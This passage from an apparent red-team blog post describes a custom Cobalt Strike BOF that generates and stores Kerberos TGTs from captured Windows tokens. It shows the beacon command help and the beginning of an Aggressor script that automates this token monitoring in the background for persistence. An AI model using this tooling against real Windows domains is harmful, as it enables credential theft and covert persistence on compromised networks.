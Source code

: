 
When we use the BOF.

```
beacon> help tgt-store
Use: tgt-store generate
     tgt-store show [id]
     tgt-store release

Use 'tgt-store generate' to generate new TGT based on token in custom-token-store

Use 'tgt-store show' to only show the current TGTs in the store or a specific TGT

Use 'tgt-store release' free the store from Beacon memory
```


![](/assets/posts/2024-04-18-monitor-cobaltstrike-windows-token-kerberos-persistence/tgt_generate.png)

![](/assets/posts/2024-04-18-monitor-cobaltstrike-windows-token-kerberos-persistence/tgt_show.png)


If you have followed the article until now, you may have noticed the monitoring of Windows tokens and Kerberos tickets generation implie the operator to launch the BOF commands. We would like to peform these actions in background and even during off site hours.


## Cobalt Strike beacon monitoring

During my research, I came across [CobaltStrike/sleep_python_bridge](https://github.com/Cobalt-Strike/sleep_python_bridge/) that leverages the headless Cobalt Strike client `agscript`.

The headless client allows to load CNA and execute agressor commands.

On the CNA side, I created the agressor command `start-token-monitoring` that forwards the execution to `bstart_monitoring`. To forward the arguments from a function/command to another I followed [this blog post](https://passthehashbrowns.github.io/cobalt-strike-aliases-kinda).

```php
sub bstart_monitoring {
    @_ = flatten(@_);
    $i = 1; #iterator
    foreach $arg (@_){ #Loop through all of our args
        eval("local('$" . $i . "')") #Declare our variable in the local scope
        eval("$$i = \"$arg\";") #Use eval to dynamically define each of our numbered args
        $i++;
    }

    $bid = $1;
    
    $handle = openf(script_resource("Release/custom-token-store." . barch($bid) . ".o"));
    $data   = readb($handle, -1);
    closef($handle);

```